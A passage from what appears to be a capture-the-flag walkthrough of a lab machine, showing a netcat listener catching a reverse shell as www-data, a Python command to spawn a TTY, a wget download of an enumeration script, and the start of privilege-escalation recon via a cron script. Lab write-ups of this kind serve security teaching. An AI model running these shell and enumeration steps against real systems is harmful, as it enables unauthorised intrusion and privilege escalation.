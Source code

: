 {% highlight js %}
[root:~]# nc -v -n -l -p 443
listening on [any] 443 ...
connect to [192.168.30.134] from (UNKNOWN) [192.168.30.142] 37957
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
{% endhighlight %}

## Linux Local Privilege Escalation

Spawn tty:

{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

Get HighOn.Coffee linux local enumeration script:

<code>wget https://highon.coffee/downloads/linux-local-enum.sh</code>

![HighOn.Coffee script enum](/img/blog/pipe/enum-rene-home.png)

Inspection of <code>/etc/crontab</code> exposed the script
<code>/usr/bin/compress.sh</code> which is world readable.  
